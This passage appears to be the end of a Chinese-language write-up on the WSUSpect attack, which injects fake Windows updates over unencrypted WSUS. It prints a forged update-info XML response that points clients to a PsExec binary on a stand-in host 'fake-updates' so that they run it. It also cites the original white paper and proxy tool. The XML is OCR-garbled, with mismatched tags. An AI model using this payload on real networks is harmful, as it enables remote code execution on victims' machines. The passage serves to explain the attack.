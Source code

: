 ```
<ExtendedProperties DefaultPropertiesLanguage="en" MsrcSeverity="Important"
 IsBeta="false">
 <SupportUrl>http://support.microsoft.com</SupportUrl>
  <SecurityBulletinID>MS15-041</SecurityBulletinID>
 <KBArticleID>3037581</KBArticleID>
  </ExtendedProperties>
 </Xml>
 </Update>
 <Update>
<ID>17999990</ID>
  <Xml>
 <!-- This should be XML encoded inside the Xml tag -->
 <LocalizedProperties>
<Language>en</Language>
 <Title>anything-in-here</Title>
  </LocalizedProperties>
 </Update>
</Xml>
  <Update>
<ID>17999991</ID>
  <Xml>
 <!-- This should be XML encoded inside the Xml tag -->
 <LocalizedProperties>
<Language>en</Language>
 <Title>A fake update</Title>
 <Description>Will do bad things</Description>
 <UninstallNotes>...</UninstallNotes>
 <MoreInfoUrl>http://support.microsoft.com/kb/3037581</MoreInfoUrl>
  <SupportUrl>http://support.microsoft.com</SupportUrl>
   </LocalizedProperties>
 </Xml>
 </Update>
 </Updates>
 <FileLocations>
 <FileLocation>
<FileDigest>HO4/qEGb30y8JmRhJ34/3ZuT3iU=</FileDigest>
 <Url>**http://fake-updates/ClientWebService/psexec/BgInfo.exe**</Url>
  </FileLocation>
 </FileLocations>
</GetExtendedUpdateInfoResult></GetExtendedUpdateInfoResponse>

```

一旦client机收到这个响应，就会根据更新类型自动或提醒用户安装。比如在上例中，就能启动一个带参运行的Psexec。

0x05 Source
===========

* * *

*   [http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf](http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf)
*   pocket:[https://github.com/ctxis/wsuspect-proxy](https://github.com/ctxis/wsuspect-proxy)